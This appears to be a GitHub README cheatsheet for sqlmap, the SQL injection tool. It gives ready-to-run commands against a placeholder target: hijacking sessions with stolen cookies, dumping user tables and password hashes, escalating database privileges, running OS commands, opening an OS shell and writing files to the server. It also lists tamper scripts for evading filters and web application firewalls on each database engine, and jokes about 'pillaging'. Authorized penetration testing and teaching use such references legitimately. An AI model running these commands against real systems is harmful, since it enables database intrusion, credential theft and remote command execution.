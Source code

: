 # SQLMapCheatsheet

## Command
- Target the http://target.server.com URL using the “-u” flag:
    ```
    sqlmap -u 'http://target.server.com'
    ```

- Specify POST requests by specifying the “–data” flag:
    ```
    sqlmap -u 'http://target.server.com' --data='param1=blah&param2=blah'
    ```

- Target a vulnerable parameter in an authenticated session by specifying cookies using the “–cookie” flag:
    ```
    sqlmap -u 'http://target.server.com' --cookie='JSESSIONID=09h76qoWC559GH1K7DSQHx'
    ```

- Drop all Set-Cookie requests from the target web server using the “–drop-set-cookie” flag:
    ```
    sqlmap -u 'http://target.server.com' -r req.txt --drop-set-cookie
    ```
- Perform in-depth and risky attacks using the “–level” and “–risk” flags:
    ```
    sqlmap -u 'http://target.server.com' --data='param1=blah' --level=5 --risk=3
    ```
- Specify which POST or GET parameter to target using the “-p” flag:
    ```
    sqlmap -u 'http://target.server.com' --data='param1=blah&param2=blah' -p param1
    ```
- Choose a random User-Agent request header using the “–random-agent” flag:
    ```
    sqlmap -u 'http://target.server.com' -r req.txt --random-agent
    ```
- Target a certain database service using the “–dbms” flag:
    ```
    sqlmap -u 'http://target.server.com' -r req.txt --dbms Oracle
    ```
- Read a request (stored via Burpsuite) target the user parameter (and no other parameters), run risky queries, and dump users and passwords:
    ```
    sqlmap -r ./req.txt -p user --level=1 --risk=3 --passwords
    ```
- Attempt privilege escalation on the target database
    ```
    sqlmap -r ./req.txt --level=1 --risk=3 --privesc
    ```
- Run the “whoami” command on the target server.
    ```
    sqlmap -r ./req.txt --level=1 --risk=3 --os-cmd=whoami
    ```
- Dump everything in the database, but wait one second in-between requests.
    ```
    sqlmap -r ./req.txt --level=1 --risk=3 --dump --delay=1
    ```
- Here are some useful options for your pillaging pleasure:
    ```
    -r req.txt Specify a request stored in a text file, great for saved requests from BurpSuite.
    –force-ssl Force SQLmap to use SSL or TLS for its requests.
    –level=1 only test against the specified parameter, ignore all others.
    –risk=3 Run all exploit attempts, even the dangerous ones (could damage database).
    –delay Set a delay in-between requests, great for throttled connections.
    –proxy Set to http://127.0.0.1:8080 to pipe requests through BurpSuite for inspection.
    –privesc Attempt to elevate the privileges of the database service account.
    –all Enumerate everything inside the target database.
    –hostname Print the target database’s hostname.
    –passwords Find and exfiltrate all users and their password hashes or digests.
    –dbs Enumerate all databases accessible via the target webserver.
    –comments Enumerate all found comments inside the database.
    –sql-shell Return a SQL prompt for interaction.
    –os-cmd Attempt to execute a system command.
    –os-shell Attempt to return a command prompt or terminal for interaction.
    –reg-read Read the specified Windows registry key value.
    –file-write Specify a local file to be written to the target server.
    –file-dest Specify the remote destination to write a file to.
    –technique Specify a letter or letters of BEUSTQ to control the exploit attempts:
        B: Boolean-based blind
        E: Error-based
        U: Union query-based
        S: Stacked queries
        T: Time-based blind
        Q: Inline queries
    ```


## Tamper
Resource: https://docs.google.com/spreadsheets/d/10nMVkPNi5VS2s4Ju40IrvvaTO-grO_BTT5gJBtEhrb0/edit?source=post_page-----91be42dfc893----------------------#gid=0

- **All scripts**
  ```
   --tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,randomcomments,securesphere,space2comment,space2dash,space2hash,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,sp_password,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords
  ```

- **General scripts**
  ```
  --tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
  ```

- **Microsoft access**
  ```
  --tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords
  ```

- **Microsoft SQL Server**
  ```
  --tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,sp_password,space2comment,space2dash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes
  ```

- **MySQL**
  ```
  --tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor
  ```

- **Oracle**
  ```
  --tamper=between,charencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes,xforwardedfor
  ```

- **PostgreSQL**
  ```
  --tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,xforwardedfor
  ```

- **SAP MaxDB**
  ```
  --tamper=ifnull2ifisnull,nonrecursivereplacement,randomcase,securesphere,space2comment,space2plus,unionalltounion,unmagicquotes,xforwardedfor
  ```

- **SQLite**
  ```
  --tamper=ifnull2ifisnull,multiplespaces,nonrecursivereplacement,randomcase,securesphere,space2comment,space2dash,space2plus,unionalltounion,unmagicquotes,xforwardedfor
  ```
